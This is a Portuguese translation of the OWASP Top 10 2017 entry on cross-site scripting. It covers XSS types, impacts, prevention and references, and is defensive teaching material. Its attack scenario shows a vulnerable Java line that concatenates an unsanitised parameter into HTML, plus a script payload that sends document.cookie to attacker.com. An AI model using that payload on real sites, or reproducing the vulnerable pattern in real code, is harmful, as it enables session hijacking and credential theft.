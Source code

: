 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Fraquezas de Segurança           | Impactos               |
| -- | -- | -- |
| Nível de Acesso \| Exploração 3 | Prevalência 3 \| Deteção 3 | Técnico 2 \| Negócio |
| Ferramentas automáticas podem detectar e explorar todas as três formas de XSS, e existem muitas framewoeks de exploração disponíveis. | XSS é o segundo mais prevalente aspecto no OWASP Top 10, e encontra-se em cerca de dois terços de todas as aplicações. As ferramentas automáticas podem encontrar alguns problemas de XSS automaticamente, em particular em tecnologias maduras como o PHP, J2EE/JSP, e ASP.NET. | O impacto do XSS é moderado para as variantes de XSS reflectido e DOM XSS, e severo no caso do XSS armazenado, com execução remota de código no browser da vítima, para roubo de credenciais, sessões, ou entrega de malware à vítima. |

## Está a Aplicação Vulnerável?

Existem três formas de XSS, que afectam o browser das vítimas:

* **XSS Reflectido**: A sua aplicação ou API inclui as entradas não validadas e não limpas do utilizador como parte do HTML resultante ou então não existe um cabeçalho da política de segurança do conteúdo (_content security policy_) ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Um ataque bem sucedido pode permitir a um atacante a execução de código arbitrário de HTML e Javascript no browser da vítima. Tipicamente o utilizador vai precisar de interagir com uma ligação, ou algum tipo de página controlada pelo utilizador, tais como publicidade maliciosa, "_watering pole attack_", ou algo semelhante.
* **XSS Armazenado**: A sua aplicação ou API armazena entradas não limpas do utilizador que são visualizadas mais tarde por outro utilizador ou administrador. O XSS armazenado é considerado frequentemente como sendo de elevado risco.
* **DOM XSS**: As frameworks de JavaScript, aplicações de página única, e APIs que dinamicamente incluam dados controlados por um atacante para uma página são vulneráveis a um DOM XSS. Idealmente, evitaria enviar dados controlados pelo atacante para APIs de Javascript inseguras.

Os ataques típicos de XSS incluem o roubo de sessões, roubo ou controlo de contas, ultrapassar factores de autenticação múltipla (MFA), substituição ou alteração de nós no DOM (tais como painéis de autenticação falsos), ataques contra o browser web do utilizador tais como o descarregar software malicioso, captura e registo de teclas ou outros ataques do lado do cliente.

## Como Prevenir?

Prevenir ataques de XSS requer a separação de dados não confiáveis do conteúdo activo de um browser.

* Usar frameworks seguras que limpam de forma automática o XSS por desenho, tal como acontece com o Ruby 3.0 ou React JS, ou então alavancar as proteções de XSS das frameworks.
* Limpar pedidos de dados HTTP não confiáveis baseado no contexto do resultado HTML (corpo, attribute, JavaScript, CSS, ou URL) resolverá as vulnerabilidades de XSS reflectido ou armazenado. O [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) possui detalhes sobre as técnicas de limpeza de dados a serem realizadas.
* Aplicação de codificação sensível ao contexto aquando da modificação do documento no browser no lado do cliente pode proteger contra DOM XSS. Quando isto não pode ser evitado, técnicas semelhantes de limpeza sensível ao contexto podem ser aplicadas às API do browser tais como descritas em [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Activar uma [Política de Segurança do Conteúdo (CSP - Content Security Policy)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é uma defesa em profundidade para mitigar XSS, assumindo que não existem outras vulnerabilidades que permitam colocar código malicioso através da inclusão de ficheiros locais tais como is atravessar caminhos, ou bibliotecas vulneráveis em fontes permitidas, tais como redes de entrega de conteúdos ou bibliotecas locais. 

## Exemplos de Cenários de Ataque

**Scenario 1**: A aplicação usa dados não confiáveis na construção do seguinte trecho de HTML sem qualquer tipo de validação ou limpeza:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante modifica o parâmetro 'CC' no browser para:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque força a que o ID de sessão da vítima seja enviado para o site web do atacante, permitindo que atacante possam raptar a sessão actual do utilizador.

De notar que os atacantes podem usar XSS para derrotar qualquer tipo de defesa automática baseada em CSRF que a aplicação use. 

## Referências

### OWASP

* [OWASP Proactive Controls: #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
